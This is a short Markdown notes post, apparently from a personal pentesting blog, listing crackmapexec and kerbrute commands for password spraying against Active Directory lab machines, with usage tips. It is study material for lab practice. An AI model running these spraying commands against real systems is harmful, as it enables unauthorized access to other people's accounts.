 ```yaml
---
description: >-
  Password Spraying
title: Password Spraying             # Add title here
date: 2023-01-21 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, AD - Enumeration]                     # Change Templates to Writeup
tags: [active directory, enumeration, password spraying]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Crackmapexec
> While executing a Password Spraying attack with crackmapexec always run the `--continue-on-success` flag, sometimes there are some cases when two users can have the same password
{: .prompt-tip }

```bash
crackmapexec winrm 10.10.10.248 -u users -p 'NewIntelligenceCorpUser9876' --continue-on-success
```
Examples:
[Intelligence](https://shuciran.github.io/posts/Intelligence/#fnref:password-spraying)

### Kerbrute
> Users file must be only the user not the domain (correct: ksimpson, incorrect: ksimpson@scrm.local)
{: .prompt-warn }
```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local <users> <password>
```
